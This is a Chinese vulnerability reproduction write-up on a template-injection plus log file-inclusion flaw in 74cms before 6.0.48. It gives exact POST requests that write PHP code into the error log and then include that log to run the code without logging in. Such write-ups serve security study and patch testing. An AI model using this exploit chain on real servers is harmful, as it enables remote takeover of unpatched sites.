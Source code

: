 

# 74cms v6.0.48模版注入+文件包含getshell

## 0x01 简介





骑士cms人才系统，是一项基于PHP+MYSQL为核心开发的一套**免费 +** 开源专业人才网站系统。软件具执行效率高、模板自由切换、后台管理功能方便等诸多优秀特点。



## 0x02 漏洞概述





骑士 CMS 官方发布安全更新，修复了一处远程代码执行漏洞。由于骑士 CMS 某些函数存在过滤不严格，攻击者通过构造恶意请求，配合文件包含漏洞可在无需登录的情况下执行任意代码，控制服务器。

## 0x03 影响版本





骑士 CMS < 6.0.48



**0x04 环境搭建**





骑士cms不支持php7.0，所以建议使用php5

官网下载6.0.20版本

![image-20201214112017128](resource/74cms%20v6.0.48%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5+%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABgetshell/media/image-20201214112017128.png)

将源码放在web根目录下，访问/index.php进行安装



## 漏洞复现

1.发送如下请求：

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

![img](resource/74cms%20v6.0.48%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5+%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABgetshell/media/640.png)

查看日志会发现已经记录了错误
位置：\phpstudy_pro\WWW\data\Runtime\Logs\Home

![img](resource/74cms%20v6.0.48%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5+%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABgetshell/media/640-20201214112713818.png)

3.包含日志

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=data/Runtime/Logs/Home/20_12_12.log
```

日志名称就是当天的年月日，直接包含即可

![img](resource/74cms%20v6.0.48%E6%A8%A1%E7%89%88%E6%B3%A8%E5%85%A5+%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%ABgetshell/media/640-20201214112801787.png)

为什么不能使用get来请求，因为url在提交给后台处理会被进行url编码，从而造成包含不成功，因此要采取post方式发送payload



